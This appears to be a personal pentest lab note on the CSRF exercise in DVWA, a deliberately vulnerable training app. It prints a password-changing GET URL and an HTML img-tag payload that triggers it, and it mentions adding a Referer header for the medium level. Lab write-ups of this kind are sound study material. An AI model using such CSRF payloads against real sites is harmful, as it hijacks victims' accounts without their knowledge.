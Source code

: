 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

LOW

Notice how changing the password required no verification process as it's changed.  Now, look at the URL:

`http://dvwa.local/vulnerabilities/csrf/?password_new=newpassword&password_conf=newpassword&Change=Change#`

If we can get the "admin" user to visit the malicious URL, the password will be changed to whatever we want. We don't need to actually type in anything to the vulnerable form.

Save the following as an html file, open in browser, and now the DVWA creds have changed from `admin:password` to `admin:newpassword`
```html
<img src="http://dvwa.local/vulnerabilities/csrf/?password_new=newpassword&password_conf=newpassword&Change=Change#">/img>
```

MEDIUM

Same as low, except we need to add a header in the request:

Referer:  `http://dvwa.local/vulnerabilities/csrf/`


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
